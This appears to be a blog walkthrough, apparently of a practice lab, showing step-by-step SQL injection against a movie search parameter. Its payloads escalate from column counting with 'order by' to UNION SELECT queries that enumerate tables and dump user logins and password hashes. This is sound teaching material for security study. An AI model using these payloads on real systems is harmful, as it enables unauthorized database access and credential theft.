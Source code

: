 ```yaml
---
layout: post
title: SQL Injection (Search\GET)
categories:
  - Web-Pentesting
---
```


<br>Here we can search for the movies
![50](https://teckk2.github.io/assets/images/Web%20Pentest/A1/50.png)
![51](https://teckk2.github.io/assets/images/Web%20Pentest/A1/51.png)
<br>Let’s check for slqi with single quote (‘)
![52](https://teckk2.github.io/assets/images/Web%20Pentest/A1/52.png)
![53](https://teckk2.github.io/assets/images/Web%20Pentest/A1/53.png)
<br>And we got the error now let’s proceed further.
![54](https://teckk2.github.io/assets/images/Web%20Pentest/A1/54.png)
<br>With double quotes and space in between (‘ ‘)
![55](https://teckk2.github.io/assets/images/Web%20Pentest/A1/55.png)
<br>All the movie result is now showing without searching for any specific movie from the database.
<br>Now using order by find the exact no. of columns in the database.
<br>For that we will put (1' order by 1-- -) after title= and increase the numbers of columns until we get any error.
![56](https://teckk2.github.io/assets/images/Web%20Pentest/A1/56.png)
<br>title=1' order by 1-- -
<br>title=1' order by 2-- -
<br>title=1' order by 3-- -
<br>title=1' order by 4-- -
<br>title=1' order by 5-- -
<br>title=1' order by 6-- -
<br>title=1' order by 7-- -
![57](https://teckk2.github.io/assets/images/Web%20Pentest/A1/57.png)
<br>At (8) we got the error which means there is 7 columns in the database, now move to the next step
<br>**Which is enumerating the database using (union select)**
![58](https://teckk2.github.io/assets/images/Web%20Pentest/A1/58.png)
<br>At columns we can print our result on are 2,3,5,4 respectively.
<br>Let’s choose column 2
![59](https://teckk2.github.io/assets/images/Web%20Pentest/A1/59.png)
![60](https://teckk2.github.io/assets/images/Web%20Pentest/A1/60.png)
<br><font color="Black">title=1' union select 1,database(),3,4,5,6,7-- -</font>
<br>Now extract the table names from the database.
![61](https://teckk2.github.io/assets/images/Web%20Pentest/A1/61.png)
<br><font color="Black">title=1' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
![62](https://teckk2.github.io/assets/images/Web%20Pentest/A1/62.png)
<br><font color="Black">title=1' union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()-- -</font>
<br>now let’s check the users table
![63](https://teckk2.github.io/assets/images/Web%20Pentest/A1/63.png)
<br><font color="Black">title=1' union select 1,group_concat(column_name),3,4,5,6,7 from information_schema.columns where table_name="users"-- -</font>
![64](https://teckk2.github.io/assets/images/Web%20Pentest/A1/64.png)
<br><font color="Black">title=1' union select 1,group_concat(login,0x3a,password),3,4,5,6,7 from users-- -</font>
<br>As you can see we successfully dump the username and password hash from the database.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
